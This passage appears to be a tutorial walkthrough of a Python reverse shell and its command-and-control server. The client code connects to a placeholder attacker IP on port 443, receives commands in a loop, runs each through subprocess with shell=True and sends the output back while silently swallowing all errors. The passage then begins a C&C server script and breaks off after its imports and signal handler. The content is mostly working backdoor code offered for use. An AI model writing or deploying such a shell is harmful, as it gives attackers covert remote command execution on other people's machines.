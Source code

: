 ```python
if __name__ == '__main__':
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as client_socket:
            client_socket.connect(("192.168.1.X", 443)) # Your IP
            
            while True:
                command = client_socket.recv(1024).decode().strip()
                if not command:
                    break
                
                command_output = run_command(command)
                client_socket.send(b"\n" + command_output.encode("cp850") + b"\n")
    except ConnectionRefusedError:
        pass
    except KeyboardInterrupt:
        pass
    except:
        pass
```

In this code snippet we start the main flow of the program, and try to create a socket to connect to the server. Now we create a while loop to receive commands from the server constantly. When command is received, run_command function is called to execute and reeturn it. Finally we have exceptions in case there is a problem with the program, so that we can control the errors.

## Function Run command

```python
def run_command(command):
    try:
        return subprocess.check_output(command, shell=True, stderr=subprocess.STDOUT).decode("cp850").strip()
    except subprocess.CalledProcessError as e:
        return f"Error executing command: {e.output.decode('cp850').strip()}"
    except Exception as e:
        return f"Unexpected error: {str(e)}"
```

The main purpose of the function is to execute the commands received from the server. To do this, I import the subprocess library to execute commands at the system level and return them to the server.

## C&C
In the github project I have a file called **command_and_control.py** whit this code:

```python
#!/usr/bin/env python3

import socket
import shutil
import signal
import sys
import subprocess
import smtplib
import os
import tempfile
from email.mime.text import MIMEText
from termcolor import colored

def def_handler(sig, frame):
    print(colored(f"\n\n[!] Leaving the program...\n", 'red'))
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)
```